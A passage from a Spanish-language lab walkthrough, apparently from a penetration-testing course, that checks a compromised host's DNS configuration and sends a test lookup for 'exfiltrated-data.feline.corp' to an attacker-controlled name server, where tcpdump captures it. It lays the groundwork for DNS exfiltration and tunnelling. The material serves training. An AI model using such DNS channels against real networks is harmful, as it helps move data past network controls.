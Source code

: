 Vamos a revisar la configuración DNS del host con *resolvectl status*:

```
database_admin@pgdatabase01:~$ resolvectl status
...             

Link 5 (ens224)
      Current Scopes: DNS        
DefaultRoute setting: yes        
       LLMNR setting: yes        
MulticastDNS setting: no         
  DNSOverTLS setting: no         
      DNSSEC setting: no         
    DNSSEC supported: no         
  Current DNS Server: 10.4.50.64
         DNS Servers: 10.4.50.64

Link 4 (ens192)
      Current Scopes: DNS        
DefaultRoute setting: yes        
       LLMNR setting: yes        
MulticastDNS setting: no         
  DNSOverTLS setting: no         
      DNSSEC setting: no         
    DNSSEC supported: no         
  Current DNS Server: 10.4.50.64
         DNS Servers: 10.4.50.64
```

Podemos observar que la dirección IP asociada al servidor DNS coincide con la MULTISERVER03. Consultará MULTISERVER03 cada vez que necesite resolver un nombre de dominio. 

A modo de prueba, realizamos un *nslookup* por *exfiltrated-data.feline.com*. 

```
database_admin@pgdatabase01:~$ nslookup exfiltrated-data.feline.corp
Server:		127.0.0.53
Address:	127.0.0.53#53

** server can't find exfiltrated-data.feline.corp: NXDOMAIN
```

En el tcpdump de FELINEAUTHORITY obtenemos la query:

```
kali@felineauthority:~$ sudo tcpdump -i ens192 udp port 53
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on ens192, link-type EN10MB (Ethernet), snapshot length 262144 bytes
04:57:40.721682 IP 192.168.50.64.65122 > 192.168.118.4.domain: 26234+ [1au] A? exfiltrated-data.feline.corp. (57)
04:57:40.721786 IP 192.168.118.4.domain > 192.168.50.64.65122: 26234 NXDomain 0/0/1 (57)
```

Podemos ver que hemos recibido una conexión por parte de la IP de MULTISERVER03 que consiste en una DNS query en busca de exfiltrated-data.feline.corp. Esto ocurre porque MULTISERVER03 actúa como el DNS server de la red e identifica a FELINEAUTHORITY como el authority name server para la zona feline.corp.
